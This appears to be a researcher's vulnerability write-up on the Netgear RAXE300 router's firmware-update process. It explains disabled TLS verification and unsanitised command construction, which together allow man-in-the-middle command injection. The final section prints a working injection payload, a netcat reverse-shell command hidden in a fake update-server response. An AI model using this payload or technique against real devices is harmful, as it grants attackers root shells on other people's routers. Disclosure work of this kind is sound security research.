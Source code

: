 ```yaml
---
title: "WAN bug in RAXE300"
date: 2023-04-25
draft: false
summary: "Second bug I found in RAXE300 Netgear device. A WAN bug lead to RCE"
tags: ["Netgear"]
---
```




### background 

Nighthawk RAXE300 router has a binary file call `pucfu`, lies in /bin/pucfu. This file main function is checking the firmware update. This file is executed while the router is booted and it will attempt to connect `https://devcom.up.netgear.com/`, and sending a https request to it. 

### analyze and root cause of vulnerability

It sending a request to `https://devcom.up.netgear.com/` by `curl_post` (usr/lib/libfwcheck.so) function, and it is quite interested in this below snippet. 
```c
size_t __fastcall curl_post(const char *url, const char *post_data, void **a3)
{
///
fw_debug(1, " URL is %s\n", url);
curl_easy_setopt(curl, 10002, url);
curl_easy_setopt(curl, 10023, http_content_header);
curl_easy_setopt(curl, 10015, post_data);
curl_easy_setopt(curl, CURLOPT_SSL_VERIFYHOST, 0); //1
curl_easy_setopt(curl, CURLOPT_SSL_VERIFYPEER, 0); //2
curl_easy_setopt(curl, CURLOPT_HTTP_VERSION, 1);
data_size = strlen(post_data);
curl_easy_setopt(curl, CURLOPT_INFILESIZE_LARGE, data_size);
curl_easy_setopt(curl, 20011, sub_68CC);
curl_easy_setopt(curl, 10001, s);
}
```

The first vulnerable lies in the line of comment [1] and [2].  

`curl_easy_setopt(curl, CURLOPT_SSL_VERIFYHOST, 0); //1`, this function setting `CURLOPT_SSL_VERIFYHOST ` to 0, which mean, it's disable hostname verification and cURL will not verify the server's hostname. 
`curl_easy_setopt(curl, CURLOPT_SSL_VERIFYPEER, 0); //2`, similar to the above function, this line of code, it's disable the verification of SSL/TLS certificate, which mean it won't check the validity of the server's SSL/TLS certification. 

Combine the two line of flaw code above, hacker can abuse it to perform man-in-the-middle attack, which mean they can fake the DHCP or DNS update server. 

Normal respone from the server: 

```c
{
    "status": 1,
    "errorCode": null,
    "message": null,
    "url": "https://test"
}
```

The second vulnerability lies in `pufwUpgrade`, this file is executed at the same time with `pucfu` file, it's check the firmware upgrade and the url to check for upgrade is from `/tmp/fw/cfu_url_cache` (which store before in pucfu file). After it reads the url for update, the `FwGetUpdate` function at address 0x000126F8 in `pufwUpgrade` binary file, the `FwGetUpdate` function push the url to the `DownloadFiles` function as the first argument. 

```c
int FwGetUpdate(int a1)
{
    //
    while ( 1 )
    {
      SetFileValue("/data/fwLastChecked", "lastDL_sku", v69);
      SetFileValue("/data/fwLastChecked", "lastDL_url", &byte_2717C);
      v4 = DownloadFiles(firmware_url_update, "/tmp/fw/dl_fileinfo_unicode", "/tmp/fw/dl_result", 0);
      ///
    }
}
```

In the `DownloadFiles` (at address 0x00002DE0 in file libpu_util.so) function, the url is stored as a string for the command line. 

```c
int DownloadFiles(const char *url_update, const char *a2, char *filename, int a4)
{
    if (is_http)
    {
        //
    }else
    {
        snprintf(
          s,
          0x1F4u,
          "(curl --fail --insecure %s --max-time %d --speed-time 15 --speed-limit 1000 -o %s 2> %s; echo $? > %s)",
          url_update,
          v7,
          a2,
          "/tmp/curl_result_err.txt",
          "/tmp/curl_result.txt");
      j_DBG_PRINT("%s:%d, cmd=%s\n", "DownloadFiles", 328, s);
      v15 = j_pegaPopen((int)s, (int)"r");
      //
    }
}
```

The command line (which has url inside) is push into `j_pegaPopen` function as the first argument, after that in `pegaPopen` function (at address 0x00001D74 in libpu_util.so file), it's execute the command line as the first argument with /bin/sh. 

Combine the two bug above, attacker can fake the https update server and do command injection in the url easily.

### Command Injection In Respone Data

```py
{
    "status": 1,
    "errorCode": null,
    "message": null,
    "url": "'; rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2> 1|nc 192.168.0.1 31337 >/tmp/f #"
}
```

The above snippet injects the reverse shell command  `rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2> 1|nc 192.168.0.1 31337 >/tmp/f` (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) into the url parameter, which mean it will sending a root shell to IP 192.168.0.1 port 31337.